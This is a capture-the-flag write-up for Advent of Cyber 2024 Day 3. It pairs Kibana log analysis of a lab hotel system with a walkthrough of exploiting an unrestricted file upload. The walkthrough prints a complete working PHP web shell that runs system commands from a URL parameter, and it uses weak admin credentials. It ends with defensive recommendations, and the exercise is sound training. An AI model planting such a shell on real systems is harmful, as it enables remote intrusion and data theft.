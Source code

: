 # Advent of Cyber 2024 - Day 3

## Challenge Overview
Day 3 of Advent of Cyber 2024 focuses on analyzing and exploiting a file upload vulnerability leading to Remote Code Execution (RCE). The challenge emphasizes identifying vulnerable web application features and understanding the security risks associated with unrestricted file uploads.

---

## Observations

### Investigating Logs with ELK
Using ELK, we analyzed logs related to the Frosty Pines Hotel Management System to detect suspicious activity and identify the exploitation path.

#### Accessing Logs
- Navigated to Kibana at `http://<MACHINE_IP>:5601`.
- Selected the `frostypines-resorts` collection.
- Filtered logs for the date range **October 3, 2024, between 11:30 and 00:00**.
![Date Filter Set](images/Date_Filters_Set_1130_0000.png)

#### Detecting Malicious Activity
Logs revealed suspicious access to `shell.php`, originating from the IP address `10.11.83.34`. Repeated commands executed via the malicious file indicated a web shell was being actively used.
![Shell Access Detected](images/frostypines_commonip_shellfound.png)

---

### Exploiting the Vulnerability
The vulnerability existed due to a lack of file validation in the hotel's admin portal, allowing an attacker to upload a malicious PHP file.

#### Steps to Exploit

1. **Accessing the Admin Portal**:
   - Logged into the admin portal at `http://frostypines.thm`.
   - Weak credentials of `admin@frostypines.tcm:admin`
   - Navigated to the "Add Room" section.
   ![Admin Portal Room Management](images/add_shellphp_room.png)

2. **Uploading a Malicious File**:
   - Created a PHP web shell (`shell.php`) with the following code:
     ```php
     <html>
     <body>
     <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
     <input type="text" name="command" autofocus id="command" size="50">
     <input type="submit" value="Execute">
     </form>
     <pre>
     <?php
         if(isset($_GET['command'])) 
         {
             system($_GET['command'] . ' 2>&1'); 
         }
     ?>
     </pre>
     </body>
     </html>
     ```
   - Uploaded the shell as the room image.

3. **Accessing the Web Shell**:
   - The file was accessible at:
     ```
     http://frostypines.thm/media/images/rooms/shell.php
     ```
   - Executed system commands through the shell.
   ![Shell Access and Commands](images/access_shell_ls.png)

4. **Retrieving the Flag**:
   - Used the shell to list files and read the contents of `flag.txt`.
   ![Flag Retrieved](images/cat_for_flag.png)

---

## Key Findings

### Blue Team Observations:
- **Vulnerable Feature**: Unrestricted file upload in the admin portal.
- **Indicators of Compromise**:
  - Repeated access to `shell.php`.
  - Commands executed via the uploaded shell.

### Red Team Exploitation:
- **Root Cause**: Missing file validation during uploads.
- **Impact**:
  - Achieved RCE and compromised sensitive data.

---

## Recommendations

1. **Restrict File Uploads**:
   - Validate file types and extensions (e.g., `.jpg`, `.png`).
   - Implement server-side validation to reject executable files.

2. **Log Monitoring**:
   - Set alerts for unusual activity, such as requests to unknown files (`shell.php`).

3. **File Scanning**:
   - Scan uploaded files for malicious code before processing or storage.

4. **Secure Admin Credentials**:
   - Enforce strong passwords and implement multi-factor authentication.

5. **Audit Code**:
   - Regularly audit application code to detect and patch vulnerabilities.

---

## Conclusion
This challenge highlighted the risks of unrestricted file uploads and the importance of secure web application development. By combining log analysis with exploitation techniques, we demonstrated the potential for attackers to achieve RCE and compromise critical systems. Implementing the recommendations above can significantly reduce the risk of such attacks.
